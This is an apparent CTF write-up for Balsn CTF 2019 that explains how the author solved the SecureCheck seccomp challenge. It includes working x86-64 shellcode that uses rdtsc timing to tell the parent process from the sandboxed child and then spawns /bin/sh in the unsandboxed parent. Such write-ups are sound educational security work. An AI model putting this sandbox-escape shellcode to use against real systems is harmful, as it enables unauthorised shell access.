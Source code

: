 # Balsn CTF 2019

Balsn CTF was one of the most difficult games I played throughout this year. Due to my lack of pwning skills, I could only solve two challenges: KrazyNote and SecureCheck. I spent about 30 hours on KrazyNote, a linux kernel exploitation challenge. Since it is my first time solving a kernel pwnable in a decent CTF and I learned a lot from that challenge, I will publish a write-up in detail. 

## SecureCheck
It is a very simple challenge. The pseudocode of the challenge is this:

```c
int main() {
	int wstatus;
	void *sc = mmap(RWX);
	read(0, sc, 0x1000);

	pid_t pid = fork();
	if (pid) {
		wait(&wstatus);
		if (wait == 0) { clear_all_registers(); sc();}
	}

	else {
		install_seccomp();
		clear_all_registers(); sc();
	}

}
```

I analyzed the seccomp rules with [this](https://github.com/david942j/seccomp-tools), and it showed that I am allowed to execute only two system calls: exit and exit_group.
The cool thing is that if the exit status for the child is 0, the parent executes the shellcode as well, which is not sandboxed. We must find a way to distinguish parent and child.

There can be many ways. My first idea was to search for special data in the stack. Since the child has init_seccomp() called, seccomp filter is in its stack, unlike is parent. By searching the stack, the shellcode can check if it is being executed in the child process or not. Sadly, this is hard because the RSP pointer is zero'ed out. There are dirty tricks such as accessing the libc via relative addresses to RIP (mmap'ed pages are contiguos) and fetching a stack address in `environ`, but this was a libc dependent solution so I quickly gave up.

My solution was that, if we have a random number generator of any sort, we can distinguish the parent and child. Assuming we have a 0/1 single bit randomizer and there is a conditional jump depending on this random value, we can execute different code in the parent and child with about a chance of 1/4, which is realistic enough. My random source was the TSC register, the super-sensitive timestamp register. The `rdtsc` instruction saves the timestamp in EAX:EDX, so I can use the lowest bit of EAX as the random source. My shellcode code is the following:

```asm
rdtsc
mov rdx, 0xfffff
.randomTimeWaste:
	dec rdx
	cmp rdx, 0
	jne .randomTimeWaste

and rax, 1
cmp rax, 1
je .parent
.child:
	mov rax, 60
	mov rdi, 0
	syscall
.parent:
	mov rax, 59
	lea rdi, [rip+binshStr]
	mov rsi, 0
	mov rdx, 0
	syscall

binshStr: .string "/bin/sh"
```

At a chance of 1/4, the parent pops a shell which gives us the flag.

## KrazyNote

I have lots to talk about this challenge, so I wrote a blogpost about it.
[Check it out]() if you're curious.
